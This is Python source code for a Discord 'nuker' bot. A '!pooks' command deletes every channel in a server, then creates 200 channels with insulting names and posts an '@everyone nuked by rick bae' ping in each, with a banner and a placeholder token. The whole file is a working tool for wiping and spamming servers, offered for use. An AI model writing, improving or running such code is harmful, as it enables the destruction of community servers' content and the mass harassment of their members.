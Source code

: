 import discord
from discord.ext import commands
import random

intents = discord.Intents.default()
intents.guilds = True
intents.guild_messages = True
intents.message_content = True

bot = commands.Bot(command_prefix='!', intents=intents)

print("""
\033[92m
          $$\           $$\       
          \__|          $$ |      
 $$$$$$\  $$\  $$$$$$$\ $$ |  $$\ 
$$  __$$\ $$ |$$  _____|$$ | $$  |
$$ |  \__|$$ |$$ /      $$$$$$  / 
$$ |      $$ |$$ |      $$  _$$<  
$$ |      $$ |\$$$$$$$\ $$ | \$$\ 
\__|      \__| \_______|\__|  \__|
                                  
                                  
                                  
\033[0m
""")

channel_names = ["ur a bitchh", "get rekt", "nuked by rick bae", "chaos incoming", "owo explosion", "server wipe"]

@bot.event
async def on_ready():
    print(f'Logged in as {bot.user.name}')

@bot.command(name='pooks')
async def create_and_delete_channels(ctx):

    for channel in ctx.guild.channels:
        await channel.delete()


    for i in range(1, 201):
        channel_name = random.choice(channel_names)
        new_channel = await ctx.guild.create_text_channel(f'{channel_name}-{i}')
        await new_channel.send('@everyone nuked by rick bae')

    await ctx.send('deleted all')


bot.run('token')
